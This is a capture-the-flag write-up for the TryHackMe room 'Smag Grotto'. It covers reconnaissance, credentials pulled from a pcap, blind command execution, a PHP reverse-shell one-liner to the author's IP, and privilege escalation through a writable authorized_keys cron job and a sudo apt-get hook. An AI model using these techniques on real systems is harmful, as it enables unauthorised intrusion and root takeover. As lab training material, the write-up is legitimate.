 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Smag Grotto
# DESCRIPTION       . Follow the yellow brick road.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/smaggrotto
```

```
sudo nmap -sSVC -T5 -p- 10.10.212.55 -oN smag
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74e0e1b405856a15687e16daf2c76bee (RSA)
|   256 bd4362b9a1865136f8c7dff90f638fa3 (ECDSA)
|_  256 f9e7da078f10af970b3287c932d71b76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- default page only shows us a basic message, with no other information displayed.

```
Welcome to Smag!
This site is still heavily under development, check back soon to see some of the awesome services we offer!
```

- I decided to fuzz this, since the source code didn't reveal any directories.

```
ffuf -u http://10.10.212.55/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
mail                    [Status: 301, Size: 311, Words: 20, Lines: 10]
```

- Alright. Here we can find 3 mails, all containing some sort of clues.

- The source code of the `.pcap` file is indicated in the source code of the page, which reveals the `http://10.10.212.55/aW1wb3J0YW50/` directory. 

- Also, along with the `netadmin`, `uzi` and `jake@smag.thm` we also have `trodd@smag.thm`. He is CC'ed in the first email, but this was commented out in the html code.

- I opened the `.pcap` file in `wireshark` and the `fourth packet` got my attention, since it is a login request to `login.php`.

```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=c{REDACTED} HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

- We have the credentials in plaintext. Also, the host is `development.smag.thm`.

- In order to access this, we must add the following entry in `/etc/hosts`

```
MACHIHE_IP     development.smag.thm
```

- We're able to login with the credentials above at `http://development.smag.thm/login.php`

- We got access to a web shell after logging in ; we're able to pass commands in a form and they'll get executed on the server.

- The thing is, I tried basic commands like `ls` or `whoami` and I got no response, so I assumed the response is not returned to the webserver in order to be displayed.

- To test this out, I decided to use `ping` while having `tcpdump` running on my VPN interface on my attack box. If I would receive the `ICMP Echo` packets, it would mean that the commands are indeed executed, but no output is shown.

**LOCAL BOX**

```bash
sudo tcpdump -i <interface> #most probably, tun0 - must be the one used by the VPN.
```

**WEB SERVER**

```bash
ping <yourIP> -c 4
```

**TCP DUMP OUTPUT**

```
23:12:43.680353 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 1, length 64
23:12:43.680379 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 1, length 64
23:12:44.886090 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 2, length 64
23:12:44.886117 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 2, length 64
23:12:45.612199 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 3, length 64
23:12:45.612225 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 3, length 64
23:12:46.934153 IP development.smag.thm > asgard: ICMP echo request, id 908, seq 4, length 64
23:12:46.934206 IP {redacted} > development.smag.thm: ICMP echo reply, id 908, seq 4, length 64
```

- As you can see, `development.smag.thm` is reaching out to us. 

**DISCLAIMER**: Use `-c <number>` to send only a limited amount of packets. If that flag is missing, ping will run until stopped (ctrl + C, but we can't do that) and the entire server will become unresponsive since all it is doing is pinging our host.

- Don't ask how I found out :) 

```
php -r '$sock=fsockopen("10.11.53.46",3131);shell_exec("sh <&3 >&3 2>&3");'
```

- This was my command of choice to get a reverse shell from the webserver. 

- To escalate privileges to the only user on the system, `jake`, I found the following.

```
 * * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

- This is a cron job that copies the content of `/opt/.backups/jake_id_rsa.pub.backup` to the `/home/jake/.ssh/authorized_keys` file in jake directories.

- Whatever public key(s) are in that file, it allows SSH connections using the private pair of the public key.

- I've generated a new public/private pair using `ssh-keygen`.

- Then, I've copied the `key.pub` to `/opt/.backups/jake_id_rsa.pub.backup`

- `echo "<content of key.pub" > /opt/.backups/jake_id_rsa.pub.backup`

- Then, from my host, I used `ssh -i key jake@ip`, where `key` is the private pair of `key.pub`.

- Once logged as `jake`, I could escalate privileges easily using 

```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

- This works because I've checked `sudo -l` and saw that we're able to run `apt-get` binary as `sudo`. In this case, we're telling it to invoke `/bin/bash` before it executes, and since we're executing as sudo (so root privileges), we're getting a root shell instead.

**NOTE**: if you're wondering where the `apt-get update` command output is, it is in `jake's shell`.

```
root@smag:/tmp# whoami
root
```

- The user flag is in `/home/jake/user.txt`.
- The root flag is in `/root/root.txt`.

